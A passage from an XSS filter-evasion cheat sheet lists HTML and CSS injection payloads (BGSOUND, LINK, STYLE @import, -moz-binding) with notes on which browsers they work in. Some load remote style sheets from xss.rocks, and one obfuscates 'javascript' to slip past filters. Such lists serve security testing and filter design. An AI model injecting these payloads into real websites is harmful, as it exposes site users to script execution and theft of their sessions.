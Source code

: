 ```js
<BGSOUND SRC="javascript:alert('XSS');">
```

#### & JavaScript includes

```html
<BR SIZE="&{alert('XSS')}">
```

#### STYLE sheet

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:

```html
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

#### Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

```html
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

#### Remote style sheet part 3

This only works in Gecko rendering engines and works by binding an XUL file to the parent page.

```html
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

### STYLE Tags that Breaks Up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

```html
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

### STYLE Attribute that Breaks Up an Expression
